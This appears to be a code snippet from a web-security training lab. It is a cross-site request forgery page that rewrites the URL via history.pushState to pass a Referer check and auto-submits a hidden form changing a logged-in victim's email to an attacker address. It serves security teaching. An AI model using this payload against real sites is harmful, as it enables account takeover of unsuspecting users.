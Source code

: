 Body:

```
<html>
    <script>
            history.pushState("", "", "/?TARGET-WEBSEVER-ID.web-security-academy.net")
    </script>
    <body>
        <form action="https://TARGET-WEBSEVER-ID.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
